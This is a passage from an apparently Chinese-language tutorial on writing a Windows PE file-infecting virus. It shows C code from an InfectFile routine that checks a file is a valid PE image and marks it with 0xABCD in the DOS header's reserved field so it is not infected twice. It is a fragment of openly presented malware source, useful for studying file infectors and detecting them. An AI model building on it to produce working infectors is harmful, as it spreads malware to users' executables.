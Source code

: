 ## 2. 检查 PE 文件    
文件映射后要检查是否为有效的 PE 文件，同时为了避免重复感染，需要检查目标文件是否已被感染。
```C
BOOL InfectFile(TCHAR *fpath)
{
	...
	// 判断是否为正常PE文件
	if (!IsPeFile(pHdr)){
		UnmapViewOfFile(pHdr);
		CloseHandle(hMapFile);
		CloseHandle(hFile);
		return FALSE;
	}

	//判断是否已被感染
	if (IsInfected(pHdr)){
		UnmapViewOfFile(pHdr);
		CloseHandle(hMapFile);
		CloseHandle(hFile);
		return FALSE;
	}
	...
}
```
IsPeFile() 和 IsInfected() 函数的实现如下：
```C
/*
检查是否为正常PE文件
*/
BOOL IsPeFile(PVOID pHdr)
{
	//判断DOS头标志是否正确
	IMAGE_DOS_HEADER *p1 = (IMAGE_DOS_HEADER*)pHdr;
	if (p1->e_magic != IMAGE_DOS_SIGNATURE){
		return FALSE;
	}
	//判断PE头标志是否正确
	IMAGE_NT_HEADERS*  p2 = (IMAGE_NT_HEADERS*)((PBYTE)pHdr + p1->e_lfanew);
	if (p2->Signature != IMAGE_NT_SIGNATURE){
		return FALSE;
	}
	return TRUE;
}

/*
判断文件是否被感染
*/
BOOL IsInfected(PVOID pHdr)
{
	IMAGE_DOS_HEADER *p = (IMAGE_DOS_HEADER*)pHdr;
	//判断DOS头的保留位是否已被填充为 0xABCD
	if ( p->e_res2[0] == (WORD)INFECTFLAG){
		return TRUE;
	}
	else{
		p->e_res2[0] = (WORD)INFECTFLAG;
		return FALSE;
	}
}
```
